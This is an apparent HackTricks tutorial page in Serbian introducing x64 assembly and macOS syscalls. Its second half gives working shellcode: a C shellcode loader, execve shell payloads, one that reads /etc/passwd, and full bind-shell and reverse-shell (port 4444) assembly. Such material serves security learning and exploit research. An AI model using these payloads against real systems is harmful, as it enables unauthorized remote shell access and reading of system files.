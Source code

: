 # Introduction to x64

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Uvod u x64**

x64, takođe poznat kao x86-64, je arhitektura procesora sa 64 bita koja se uglavnom koristi u desktop i server računarstvu. Potiče iz x86 arhitekture koju je proizveo Intel, a kasnije je usvojena od strane AMD-a pod nazivom AMD64. To je dominantna arhitektura u ličnim računarima i serverima danas.

### **Registri**

x64 proširuje x86 arhitekturu, uključujući **16 registara opšte namene** označenih kao `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi` i `r8` do `r15`. Svaki od ovih registara može da čuva vrednost od **64 bita** (8 bajtova). Ovi registri takođe imaju pod-registre od 32 bita, 16 bita i 8 bita radi kompatibilnosti i specifičnih zadataka.

1. **`rax`** - Tradicionalno se koristi za **vrednosti povratka** iz funkcija.
2. **`rbx`** - Često se koristi kao **bazni registar** za operacije sa memorijom.
3. **`rcx`** - Obično se koristi za **brojače petlji**.
4. **`rdx`** - Koristi se u različitim ulogama, uključujući proširene aritmetičke operacije.
5. **`rbp`** - **Bazni pokazivač** za okvir steka.
6. **`rsp`** - **Pokazivač steka**, prati vrh steka.
7. **`rsi`** i **`rdi`** - Koriste se za **izvore** i **odredišta** indeksa u operacijama sa stringovima/memorijom.
8. **`r8`** do **`r15`** - Dodatni registri opšte namene uvedeni u x64.

### **Pozivni konvencija**

Pozivna konvencija x64 varira između operativnih sistema. Na primer:

* **Windows**: Prva **četiri parametra** se prosleđuju u registre **`rcx`**, **`rdx`**, **`r8`** i **`r9`**. Dodatni parametri se guraju na stek. Vrednost povratka je u registru **`rax`**.
* **System V (često korišćeno u UNIX-sličnim sistemima)**: Prva **šest celobrojnih ili pokazivačkih parametara** se prosleđuje u registre **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`** i **`r9`**. Vrednost povratka je takođe u registru **`rax`**.

Ako funkcija ima više od šest ulaza, **ostatak će biti prosleđen preko steka**. **RSP**, pokazivač steka, mora biti **poravnat na 16 bajtova**, što znači da adresa na koju pokazuje mora biti deljiva sa 16 pre bilo kakvog poziva. To znači da bismo obično trebali da se pobrinemo da je RSP pravilno poravnat u našem shell kodu pre nego što pozovemo funkciju. Međutim, u praksi, sistemski pozivi često funkcionišu čak i ako ovaj zahtev nije ispunjen.

### Pozivna konvencija u Swift-u

Swift ima svoju **pozivnu konvenciju** koja se može pronaći na [**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)

### **Uobičajene instrukcije**

x64 instrukcije imaju bogat skup, održavajući kompatibilnost sa ranijim x86 instrukcijama i uvodeći nove.

* **`mov`**: **Pomeri** vrednost iz jednog **registra** ili **lokacije u memoriji** u drugi.
* Primer: `mov rax, rbx` — Pomeri vrednost iz `rbx` u `rax`.
* **`push`** i **`pop`**: Guranje ili izvlačenje vrednosti sa **steka**.
* Primer: `push rax` — Gura vrednost iz `rax` na stek.
* Primer: `pop rax` — Izvlači vrhunsku vrednost sa steka u `rax`.
* **`add`** i **`sub`**: Operacije **sabiranja** i **oduzimanja**.
* Primer: `add rax, rcx` — Sabira vrednosti u `rax` i `rcx` i smešta rezultat u `rax`.
* **`mul`** i **`div`**: Operacije **množenja** i **deljenja**. Napomena: ove operacije imaju specifično ponašanje u vezi sa korišćenjem operanada.
* **`call`** i **`ret`**: Koriste se za **pozivanje** i **povratak iz funkcija**.
* **`int`**: Koristi se za pokretanje softverskog **prekida**. Na primer, `int 0x80` se koristio za sistemski poziv u 32-bitnom x86 Linux-u.
* **`cmp`**: **Uporedi** dve vrednosti i postavi zastavice CPU-a na osnovu rezultata.
* Primer: `cmp rax, rdx` — Upoređuje `rax` sa `rdx`.
* **`je`, `jne`, `jl`, `jge`, ...**: **Uslovne skok** instrukcije koje menjaju tok kontrole na osnovu rezultata prethodnog `cmp` ili testa.
* Primer: Nakon instrukcije `cmp rax, rdx`, `je label` — Skoči na `label` ako je `rax` jednak `rdx`.
* **`syscall`**: Koristi se za **sistemski poziv** u nekim x64 sistemima (kao što su moderni Unix sistemi).
* **`sysenter`**: Optimizovana instrukcija za **sistemski poziv** na nekim platformama.

### **Prolog funkcije**

1. **Guranje starog baznog pokazivača**: `push rbp` (čuva bazni pokazivač pozivaoca)
2. **Pomeranje trenutnog pokazivača steka na bazni pokazivač**: `mov rbp, rsp` (postavlja novi bazni pokazivač za trenutnu funkciju)
3. **Alokacija prostora na steku za lokalne promenljive**: `sub rsp, <veličina>` (gde je `<veličina>` broj bajtova potrebnih)

### **Epilog funkcije**

1. **Pomeranje trenutnog baznog pokazivača na pokazivač steka**: `mov rsp, rbp` (dealocira lokalne promenljive)
2. **Izvlačenje starog baznog pokazivača sa steka**: `pop rbp` (obnavlja bazni pokazivač pozivaoca)
3. **Povratak**: `ret` (vraća kontrolu pozivaocu)

## macOS

### syscalls

Postoje različite klase syscalls, možete ih **pronaći ovde**.

```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```

Zatim, možete pronaći broj svakog sistemskog poziva [**na ovoj adresi**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**:**

```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```

Dakle, da biste pozvali `open` sistemski poziv (**5**) iz **Unix/BSD klase**, morate ga dodati: `0x2000000`

Dakle, broj sistemskog poziva za pozivanje `open` bi bio `0x2000005`

### Shellkodovi

Za kompajliranje:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

Da biste izvukli bajtove:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>C kod za testiranje shell koda</summary>

\`\`\`c // code from https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/helper/loader.c // gcc loader.c -o loader #include #include #include #include

int (\*sc)();

char shellcode\[] = "";

int main(int argc, char \*\*argv) { printf("\[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void \*ptr = mmap(0, 0x1000, PROT\_WRITE | PROT\_READ, MAP\_ANON | MAP\_PRIVATE | MAP\_JIT, -1, 0);

if (ptr == MAP\_FAILED) { perror("mmap"); exit(-1); } printf("\[+] SUCCESS: mmap\n"); printf(" |-> Return = %p\n", ptr);

void \*dst = memcpy(ptr, shellcode, sizeof(shellcode)); printf("\[+] SUCCESS: memcpy\n"); printf(" |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT\_EXEC | PROT\_READ);

if (status == -1) { perror("mprotect"); exit(-1); } printf("\[+] SUCCESS: mprotect\n"); printf(" |-> Return = %d\n", status);

printf("\[>] Trying to execute shellcode...\n");

sc = ptr; sc();

return 0; }

````
</details>

#### Shell

Preuzeto sa [**ovde**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) i objašnjeno.

<div data-gb-custom-block data-tag="tabs">

<div data-gb-custom-block data-tag="tab" data-title='sa adr'></div>

```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
````

```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```

**Čitanje sa cat**

Cilj je izvršiti `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, tako da je drugi argument (x1) niz parametara (što u memoriji znači stog adresa).

```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```

**Pokretanje komande sa sh**

Da biste pokrenuli komandu sa `sh` na macOS-u, možete koristiti sledeću sintaksu:

```sh
sh -c "komanda"
```

Na primer, ako želite da izvršite komandu `ls -la` sa `sh`, koristite sledeću komandu:

```sh
sh -c "ls -la"
```

Ova sintaksa će izvršiti komandu `ls -la` koristeći `sh` interpretator na macOS-u.

```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```

**Bind shell**

Bind shell sa [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) na **portu 4444**

```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```

**Reverse Shell**

Reverse shell sa [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell na **127.0.0.1:4444**

```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```



</details>
